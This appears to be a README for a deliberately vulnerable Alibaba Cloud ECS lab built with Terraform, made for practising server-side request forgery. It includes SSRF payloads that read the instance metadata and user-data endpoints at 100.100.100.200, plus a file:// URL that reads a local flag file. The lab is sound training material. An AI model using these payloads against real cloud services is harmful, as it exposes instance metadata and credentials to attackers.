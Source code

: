 # Alibaba Cloud ECS SSRF Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the Alibaba Cloud ECS SSRF vulnerability environment.

After building the environment with Terraform, users can obtain metadata and user data and other information on ECS through the SSRF vulnerabilities.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/aliyun/elastic_computing_service/ecs_ssrf/
```

Configure Alibaba Cloud Access Credentials

```shell
aliyun configure
```

> You can create and view your AccessKey on the [AccessKey page](https://ram.console.aliyun.com/manage/ak) of the Alibaba Cloud console

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

![img](../../../images/1651824215.png)

After the environment is set up, You can see the access address of the scenario at Outputs, then access to the browser.

## Vulnerability Utilization

On ECS with SSRF vulnerabilities, we can use SSRF to read ECS metadata, user data and other information.

read metadata

```shell
http://100.100.100.200/latest/meta-data/
```

![img](../../../images/1651824930.png)

read user data

> The premise is that the target has been configured with user data, otherwise will be disconnected.

```shell
http://100.100.100.200/latest/user-data/
```

![img](../../../images/1651824992.png)

In the user data information, you can see that there is a flag file in the root directory of the scenario, try to use SSRF to read this file.

```shell
file:///flag69152201.txt
```

![img](../../../images/1651825032.png)

Successfully read the flag file.

## Destroy the environment

```shell
terraform destroy
```

